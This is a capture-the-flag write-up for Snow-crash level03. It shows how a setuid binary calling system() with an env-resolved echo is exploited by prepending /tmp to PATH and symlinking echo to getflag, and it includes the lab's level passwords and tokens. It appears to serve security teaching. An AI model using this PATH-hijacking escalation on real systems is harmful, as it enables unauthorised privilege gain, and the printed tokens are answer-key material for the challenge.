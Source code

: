 ```yaml
---
title:  "Snow-crash Level03"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-12
last_modified_at: 2024-02-12
---
```


#### 1. The password of level02 is the token from level01.

```
kooda2puivaav1idi4f57q8iq
```
#### 2. So, try login to level03 with the password we got from level02 and try to put the command 'ls -la'. We can see the file 'level03'. 
```
level00@SnowCrash:~$ su level03
Password:
level03@SnowCrash:~$ ls
level03
```
#### 3. Try to execute the level03. but it says Exploit me. 
```
level03@SnowCrash:~$ ./level03
Exploit me
```
#### 4. When we check with cat command, we can see the file type as below. so, we can assume that it's binary file. (A binary file is a computer file that is not a text file.)
```
level03@SnowCrash:~$ cat level03
ELF44 	($!444  TTT��(((��hhhDDP�td44Q�tdR�td��/lib/ld-linux.so.2GNUGNUOX�;�Sy8n�n��KT{K �K��3LD= T)__gmon_start__libc.so.
6_IO_stdin_usedsetresgidsetresuidsystemgeteg��geteuid__libc_start_mainGLIBC_2.0ii
...
..
.
```
#### 5. So, let's debug with `ltrace`. `ltrace` is a debugging utility on Unix-like systems that can be used to intercept and display dynamic library calls.

```
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                         = 2003
geteuid()                                         = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                            = 0
+++ exited (status 0) +++
```
We found the echo of "Exploit me", the same result when we execute ./level03 at the beginning.

`system("/usr/bin/env echo Exploit me"Exploit me`

It shows that `echo` command is executed from the located in `/usr/bin/env`.

If so, we can control the execution of the env command by changing the `PATH` environment variable. 

#### 6. To execute the program `getflag` located in `/bin` as if it were echo, we create a symbolic link named echo to pointing `getflag` in `/tmp` directory. By adding `/tmp` to the PATH, we ensure that our fake echo in `/tmp` is executed when `env` searches for the `echo` command. 

```
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
level03@SnowCrash:~$ export PATH="/tmp:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token :qi0maab88jeaj46qoumi7maus
```
* `ln`: to create the links for the files

* `-s`: option to specify that this will be a symbolic link.

* /bin/getflag : Location that is stored Password

* `export PATH="/tmp:$PATH"` : Add the PATH environment variable to pointing /tmp directory. 


#### 7.  We got a token for next level04

```
qi0maab88jeaj46qoumi7maus
```
